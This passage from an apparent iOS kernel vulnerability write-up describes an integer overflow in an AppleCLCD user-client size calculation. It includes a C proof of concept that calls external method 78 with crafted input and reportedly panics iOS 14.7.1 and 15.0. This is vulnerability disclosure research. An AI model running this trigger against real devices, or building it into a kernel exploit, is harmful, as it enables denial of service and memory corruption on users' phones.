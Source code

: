 And from here, we clearly panic.

So, we have a 32-bit integer overflow in a calculation of size! This size is passed to _kalloc_ext_, which means we can trigger memory corruption, and even control the zone (up to minor restrictions from the calculation). In many cases, such bugs lead to wildcopy, which makes the exploit much more fun for us ([one](https://github.com/saaramar/Publications/blob/master/BluehatIL_2018_WSL_exploit/WSL_slides.pdf), [two](https://saaramar.github.io/str_repeat_exploit/)). Let’s dig in and see what’s going on in our case.

So, I built the following POC, which triggered a panic on the iOS versions I tried (I tested 14.7.1 and 15.0, but the bug is probably older than that).

POC:

```
 io_connect_t get_iomfb_uc(void) {
    kern_return_t ret;
    io_connect_t shared_user_client_conn = MACH_PORT_NULL;
    int type = 0;
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                       IOServiceMatching("AppleCLCD"));
    
    if(service == MACH_PORT_NULL) {
        printf("[-] failed to open service\n");
        return MACH_PORT_NULL;
    }
    
    printf("[*] AppleCLCD service: 0x%x\n", service);

    ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
    if(ret != KERN_SUCCESS) {
        printf("[-] failed to open userclient: %s\n", mach_error_string(ret));
        return MACH_PORT_NULL;
    }
    
    printf("[*] AppleCLCD userclient: 0x%x\n", shared_user_client_conn);
    
    return shared_user_client_conn;
}

void do_trigger(io_connect_t iomfb_uc) {
    kern_return_t ret;
    size_t input_size = 0x180;
    
    uint64_t scalars[2] = { 0 };

    char *input = (char*)malloc(input_size);
    if (input == NULL) {
        perror("malloc input");
        return;
    }
    
    memset(input, 0x41, input_size);
    *(int*)input = 0x3;
    
    ret = IOConnectCallMethod(iomfb_uc, 78,
                        scalars, 2,
                        input, input_size,
                        NULL, NULL,
                        NULL, NULL);
    
    if (ret != KERN_SUCCESS) {
        printf("s_set_block failed, ret == 0x%x --> %s\n", ret, mach_error_string(ret));
    } else {
        printf("success!\n");
    }
```